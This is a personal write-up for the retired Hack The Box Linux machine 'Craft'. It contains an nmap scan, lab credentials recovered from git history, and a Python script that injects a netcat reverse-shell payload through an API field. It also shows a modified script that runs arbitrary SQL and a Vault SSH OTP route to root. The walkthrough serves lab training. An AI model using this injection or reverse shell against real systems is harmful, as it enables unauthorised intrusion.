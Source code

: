 Hey Guys This is chan and Today craft is retired from hack the box and here is my write up about craft.It is an medium linux machine.Craft is an easy one.it is https protoco.So let’s get jump.

# Craft

## Nmap Scan
```
root@ch4n:~# nmap -sC -sV 10.10.10.110

Starting Nmap 7.60 ( https://nmap.org ) at 2019-11-03 15:15 EST
Nmap scan report for 10.10.10.110
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (EdDSA)
443/tcp open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Page

So here if we check the web page there are two interesting things.These are ```https://api.craft.htb/api/``` and ```https://gogs.craft.htb/```

So if we look at https://gogs.craft.htb/ ,there is a git hub repo that’s call Craft/ craft/api and some user accounts



So I downloaded the repo with git clone but I got the error like this


So After some goggling about this error I found the way to fix.


So we got the file.I used git log -p to find the remove code


So here we got the creds.

```
dinesh:4aUh0A8PbVJxgd
```

this line is in test.py so we can exploit test.py using this creds.If we check test.py ,it is vulnerable to command injections.

Here is my modiefied code:
```
import requests
import json

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']

shell = """__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.37 9001 >/tmp/f")"""

headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }

print("Create  ABV brew")
brew_dict={}
brew_dict['abv'] = shell
brew_dict['name'] = 'ch4n'
brew_dict['brewer'] = 'ch4n'
brew_dict['style'] = 'ch4n'

json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)
```

after running this file we got reverse shell

```
/opt/app # ls -la
total 44
drwxr-xr-x    5 root     root          4096 Jan  3 17:28 .
drwxr-xr-x    1 root     root          4096 Feb  9  2019 ..
drwxr-xr-x    8 root     root          4096 Feb  8  2019 .git
-rw-r--r--    1 root     root            18 Feb  7  2019 .gitignore
-rw-r--r--    1 root     root          1585 Feb  7  2019 app.py
drwxr-xr-x    5 root     root          4096 Feb  7  2019 craft_api
-rwxr-xr-x    1 root     root           673 Feb  8  2019 dbtest.py
drwxr-xr-x    2 root     root          4096 Feb  7  2019 tests
```

```
/opt/app # cat dbtest.py
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
        sql = "SELECT `id`, `brewer`, `name`, `abv` FROM `brew` LIMIT 1"
        cursor.execute(sql)
        result = cursor.fetchone()
        print(result)

finally:
    connection.close()
/opt/app #
```

after getting reverse shell I check dbtest.py then modified the script like this
```
#!/usr/bin/env python

import pymysql
from craft_api import settings
import sys
# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
       sql = sys.argv[1]
       cursor.execute(sql)
       results = cursor.fetchall()
       for i in results:
          print(i)

finally:
    connection.close()
```

Then check the tables in database then got user and pass


So check Gilfoyle user

```
gilfoyle : ZEU3N8WNM2rh4T
```

He has the repo call craft-infra.And also left ssh key

So I copied it to my machine then connect with ssh then grab the user flag


## Privillege Escalation
In gilfoyle repo there is a file called secret.sh it it interesting

```
#!/bin/bash

# set up vault secrets backend

vault secrets enable ssh

vault write ssh/roles/root_otp \
    key_type=otp \
    default_user=root \
    cidr_list=0.0.0.0/0
```
It said enable ssh engine then create otp role for root you can read this

We have .vault token so that we can login to the vault then create otp role for root

In here we are with root.

So that’s it guys hope you enjoy it:-)
